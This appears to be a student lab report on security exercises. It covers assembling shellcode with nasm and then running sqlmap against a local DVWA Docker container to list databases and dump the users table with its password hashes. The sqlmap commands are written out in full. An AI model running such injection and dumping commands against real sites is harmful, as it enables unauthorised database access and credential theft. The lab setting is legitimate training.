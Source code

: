 22110062-Dao Nguyen Phuc

Question 1:
Step 1: Compile the Shellcode Assembly Code
First, compile the shellcode written in assembly language to create an object file.

![alt text](/Picture1.png)
Here we are using the nasm assembler to assemble the code into an ELF (Executable and Linkable Format) 32-bit object file.
Then, link the object file to create an executable:
![alt text](/Picture2.png)




Question 2:
Step 1:  Run Docker by the command : docker-compose up -d
Then it will create 2 contaners
![alt text](/picture3.png)
We will use a vulnerable web application, like Damn Vulnerable Web Application (DVWA) or SQLi-Labs, inside a Docker container for testing the SQL injection. 

Pull the DVWA Docker image:
docker pull vulnerables/web-dvwa

Run the DVWA container:
docker run --rm -it -p 80:80 vulnerables/web-dvwa

Access the DVWA web app by navigating to http://localhost
![alt text](/Picture4.png)

Step 2: Install SQLmap
1.Clone the SQLmap repository:
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

2.Navigate to the SQLmap directory:
cd sqlmap-dev

3.Run SQLmap directly:
![alt text](/Picture5.png)

Answer 1:

Start the vulnerable application and identify a page with SQL Injection vulnerability
![alt text](/Picture6.png)


When we input some value ,we have found an injectable URL:
"http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" 

Use SQLmap to enumerate all available databases:
python3 sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=58a63i3ch7sb68djgknjvqcop5; security=low" --dbs

SQLmap will test for SQL injection vulnerabilities and retrieve a list of databases:
![alt text](/Picture8.png)

After identifying the database (dvwa), the next step is to get the tables of the target database using SQLmap:
![alt text](/Picture9.png)

Use the command: python3 sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=58a63i3ch7sb68djgknjvqcop5; security=low" -D dvwa -T users --columns
to show the databse of dvwa table:
![alt text](/Picture10.png)

now,we can retrieve the information by using command : python3 sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=58a63i3ch7sb68djgknjvqcop5; security=low" -D dvwa -T users --dump

 ![alt text](Picture11.png)
 it automacally enrypted the hash without using John the ripper



